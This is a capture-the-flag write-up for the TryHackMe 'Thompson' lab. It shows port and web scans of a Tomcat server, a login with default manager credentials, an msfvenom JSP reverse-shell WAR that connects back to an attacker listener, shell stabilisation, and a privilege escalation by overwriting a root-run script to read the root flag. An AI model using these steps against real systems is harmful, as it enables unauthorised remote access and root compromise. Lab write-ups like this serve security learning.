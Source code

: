 # THM - Thompson

## IP Address
10.10.118.71

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.118.71
```

- Results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-27 14:19 UTC
Nmap scan report for ip-10-10-118-71.eu-west-1.compute.internal (10.10.118.71)
Host is up (0.00076s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
MAC Address: 02:E5:D9:85:4E:C4 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.99 seconds
```

2. Tomcat version is ```8.5.5``` and we know that the CTF image is an image of Tomcat. so lets try to see if there are any vunerability on ```8.5.5```:
```bash
searchsploit tomcat
```
- Results show nothing useful.

- Tried gobusters nothing useful came out except a few additional pages:
```
root@kali:~# gobuster dir -u http://10.10.118.71:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.118.71:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/27 14:33:53 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
==================================
```

- Try nikto to see if anything useful came out:
```bash
nikto -h 10.10.118.71:8080
```
- Results show something useful finally. A default login:
```
root@kali:~# nikto -h 10.10.118.71:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.118.71
+ Target Hostname:    10.10.118.71
+ Target Port:        8080
+ Start Time:         2020-04-27 14:39:25 (GMT0)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /host-manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7993 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2020-04-27 14:39:39 (GMT0) (14 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

4. After logging in, we will see a very weird hashed(?) web url ```/hgkFDt6wiHIUB29WWEON5PA```. Let see what we can find in there.
- Seems like its only a blank page.

5. Below there is an option that allows me to upload .war file. I am not very familiar with .war so lets see if I can upload a .php reverse shell instead.
```
FAIL - File uploaded "lame.php" must be a .war
```

- Ok so... .war then:
```bash
#make script
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.117.239 LPORT=9001 -f war > reverse.war

#make listener on another terminal
nc -lvnp 9001
```

- remember to click on the reverse shell in tomcat and:
```
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.117.239] from (UNKNOWN) [10.10.118.71] 42772

```

6. Time to make the shell stable:

- type the following:
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

- press ```ctrl+z``` to bring shell to foreground

- type:
```bash
stty raw -echo
fg
```

- press ```Enter``` a few times to get back the shell

- type:
```bash
export TERM=xterm
```

- press ```crtl+l``` to get a clean and stable shell.

7. after checking ```ls /home``` we found out that the username is ```jack``` and we can capture the flag thru:
```bash
cat /home/jack/user.txt
```

## Previlege Escalation

8. So at ls we see a few other files like ```id.sh``` and ```test.txt``` let see what are they:
- test.txt:
```
tomcat@ubuntu:/$ cat /home/jack/test.txt
uid=0(root) gid=0(root) groups=0(root)
```

- id.sh:
```
tomcat@ubuntu:/$ cat /home/jack/id.sh
#!/bin/bash
id > test.txt
```

- Seems to be some sort of script giving root access to the current user. Lets try running it:
```bash
tomcat@ubuntu:/$ chmod +x /home/jack/id.sh
chmod: changing permissions of '/home/jack/id.sh': Operation not permitted
tomcat@ubuntu:/$ /home/jack/id.sh
/home/jack/id.sh: line 2: test.txt: Permission denied
tomcat@ubuntu:/$ 
```
-Sigh permission denied.

9. Let see if we can find any SUID to abuse:
```bash
find / -perm -4000  2>/dev/null
```

- Results, not useful:
```
tomcat@ubuntu:/$ find / -perm -4000  2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/passwd
```

10. Lets move back to ```id.sh``` let see if we can echo a command to read the root flag:
```
tomcat@ubuntu:/$ cd /home/jack
tomcat@ubuntu:/home/jack$ ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ bash id.sh
id.sh: line 1: test.txt: Permission denied
tomcat@ubuntu:/home/jack$ cat test.txt
xxxxxxxxxxxxxxxxxxxxxxxxxx
```

